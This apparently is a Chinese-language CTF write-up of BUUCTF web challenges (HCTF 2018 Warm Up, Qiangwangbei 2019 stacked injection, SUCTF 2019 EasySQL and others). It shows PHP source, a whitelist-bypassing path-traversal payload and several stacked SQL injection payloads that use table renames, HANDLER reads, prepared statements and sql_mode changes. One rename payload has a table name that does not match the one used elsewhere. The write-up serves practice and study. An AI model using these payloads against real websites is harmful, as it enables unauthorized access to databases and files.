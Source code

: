 ## 2020-7-13-buu刷题记录1

(吐槽一波，由于这些题曾经做过这次是第二次做，浏览器智能得还留着我上一次操作的payload，导致我输入的时候payload直接就弹出来了/捂脸)

### 0x01 [HCTF 2018] Warm Up

这个题考察CVE-2018-12613。拿到题目，f12发现给了source.php。

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

审计代码发现有两个文件，其中hint.php提示了flag的位置，source.php就是源代码。其他文件的话都会返回```you can't see it```。但是仔细审计代码发现```$_page = mb_substr($page,0,mb_strpos($page . '?', '?'));```这段代码存在逻辑漏洞，只需要在这两个满足白名单的文件后面加个```?```后就可以绕过了。

故构造如下payload：

```
file=source.php?../../../../../../../ffffllllaaaagggg.php
```

成功获得flag。

### 0x02 [强网杯 2019] 随便注

这个题考察堆叠注入。先测试```1' or 1=1 #```发现可以正常返回，可以知道是单引号闭合，随后尝试union select注入发现被过滤且无法绕过。但是发现这里可以进行堆叠注入。

```sql
1';show databases; #   # 查看数据库
1';show tables; #      # 查看数据表
1';show columns from `words` #     # 查看words表中的所有列名
1';show columns from `1919810931114514` #    # 查看该表中的所有列名
```

随后发现在1919810931114514表中存在flag，但我们查询的是words表。故尝试修改表名来完成查询。修改words表为words1，1919810931114514表为words，然后修改列名，然后在输入万能密码查询就能得到flag了。

```sql
1';rename table `words` to `words1`;rename table `191910931114514` to `words`;alter table `words` change `flag` `id` varchar(100); #
```

不过这个题还有其他做法，可以通过mysql特有的handler语句完成查询。

```
1';handler `1919810931114514` open;handler `1919810931114514` read first; #    #如果没读出来就handler `1919810931114514 read next;一直往下读，读到flag为止。
```

或者通过预处理：

```sql
1';sEt a=CONCAT('se','lect * from `1919810931114514`;');prePare flag from a;execute flag; #    # set和prepare被过滤了，不过这个可以通过大小写绕过
```

### 0x03 [SUCTF 2019] EasySQL

这个题也是堆叠注入，但是handler被过滤，且被限制了40位。前面的方法无法再使用了。测试一下发现，输入1，2，3等数字返回1，输入0或者非数字什么都不返回。猜测使用了||。然后发现通过修改sql_mode系统变量可以改变||的功能，把||的功能从运算符变成字符串拼接符。

> sql_mode可以设置的值有：ONLY_FULL_GROUP_BY,STRICT_TRANS_TABLES,NO_ZERO_IN_DATE,NO_ZERO_DATE,ERROR_FOR_DIVISION_BY_ZERO,NO_AUTO_CREATE_USER,NO_ENGINE_SUBSTITUTION

sql_mode主要关注两个值，PIPES_AS_CONCAT即将||当作字符串拼接符，STRICT_TRANS_TABLES即将||当作逻辑或运算符。

ok接下来就简单了。将sql_mode设置成PIPES_AS_CONCAT，然后查询就完事。

```sql
1';set sql_mode=PIPES_AS_CONCAT;select 1; #
```

>一个非预期。这个题没有过滤*，故可以直接\*,1，这样sql语句就变成了`select *,1||flag from Flag`，也就是`select *,1 from Flag`。直接查询flag表所有内容。

### 0x04 [极客大挑战 2019] EasySQL

万能密码登录即可。

### 0x05 [GYCTF 2020] Blacklist

这个题set alter被过滤了且无法绕过，于是就只剩下使用handler进行查询的方法了。payload和强网杯那个一样，不再赘述。